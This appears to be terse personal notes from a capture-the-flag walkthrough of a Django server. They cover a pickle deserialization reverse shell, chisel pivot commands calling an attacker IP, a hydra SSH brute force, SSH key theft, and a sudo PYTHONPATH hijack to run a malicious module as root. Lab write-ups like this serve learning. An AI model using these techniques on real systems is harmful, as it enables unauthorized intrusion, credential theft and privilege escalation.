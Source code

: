 web server running on django
possible usernames include `ramsey`, `wan` and `oliver`

python pickle module deserialization exploit:
	search method makes a post request to the server by serializing user input, where it is deserialized
	We intercept a search request with burp, and decrypt the `search_cookie` with b64decode and pickle.loads function
	we make our own serialized payload with b64encode and picke.dumps and get a reverse shell
	https://davidhamann.de/2020/04/05/exploiting-python-pickle/
	use "<payload>=" format


	there was `git log` which showed nothing useful and also db.sqlite3 which had web creds for abover users but they don't work
	for ssh
	scan internal network 172.17.0.1 with nmap and ssh is open(no ssh on machine so), use chisel to pivot the  port
	```
		on local machine 
			./chisel server -p 2222 --reverse
		on victim
			./chisel client 10.17.17.11:2222 R:22:172.17.0.1:22
	
	Horizantal privesc:
		bruteforce ssh with hydra(pretty easy pwd was 12345678), 
		python script running as another user but unwritable
		simply delete and recreate script
		Method used was to copy id_rsa to login as ssh as other user
	
	Lateral privesc:
		file uses an import docker
		create docker.py with malicious payload and run it as root with
		`sudo PYTHONPATH=`pwd` /usr/bin/python /opt/dockerScript.py` and done!